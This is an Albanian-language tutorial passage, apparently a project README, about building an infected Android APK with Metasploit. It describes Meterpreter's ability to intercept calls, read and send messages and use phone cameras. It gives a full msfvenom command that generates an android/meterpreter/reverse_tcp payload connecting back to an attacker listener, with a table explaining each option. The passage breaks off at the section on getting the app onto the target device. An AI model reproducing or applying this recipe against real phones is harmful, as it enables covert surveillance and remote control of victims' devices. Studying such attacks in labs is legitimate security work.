 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Android Meterpreter mundëson marrjen e informatave nga folderët e sistemit, përgjimin e thirrjeve telefonike, leximin dhe dërgimin e mesazheve, leximin e regjistrit të telefonatave, përdorimin e kamerave të sistemit, etj.

### Krijimi i android aplikacionit të infektuar

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Për të krijuar një APK (Android Package) fajll të infektuar përdorim `msfvenom` e cila është një instancë e Metasploit, funsionaliteti i së cilës kombinon krijimin dhe enkodimin e ngarkesave për përdorime të ndryshme. &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Msfvenom përdoret për gjenerimin e ngarkesës sipas kërkesës dhe në varësi të disponueshmërisë së llojeve në Metasploit. Për të gjeneruar një `android/meterpreter/reverse_tcp` payload që do të instalohet në sistemin e targetuar, përmes msfvenom shkruajmë komandën:

```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.12 LPORT=4444 R > /root/Desktop/OurApp.apk
```

| Shkurtesa                  | Shpjegimi                                                              |
| -------------------------- | ---------------------------------------------------------------------- |
| -p                         | Specifikon llojin e payload që përdoret.                               |
| LHOST IP                   | Adresa e sistemit e cila do të përdoret për të pritur lidhjen prapa.   |
| LPORT                      | Porti i sistemit që do të presë për komunikim me sistemin e targetuar. |
| R                          | Raw format (format i papërpunuar).                                     |
| /root/Desktop/OurApp.apk | Lokacioni ku ruhet APK aplikacioni i krijuar.                          |



<center>
<img width="100%" src="READMEresources/krijimi_i_apk_fajllit.gif"/>
<figcaption><small><i>Video 1: Krijimi i apk fajllit</i></small></figcaption>
</center>

### Kalimi i aplikacionit të infektuar tek sistemi i targetuar

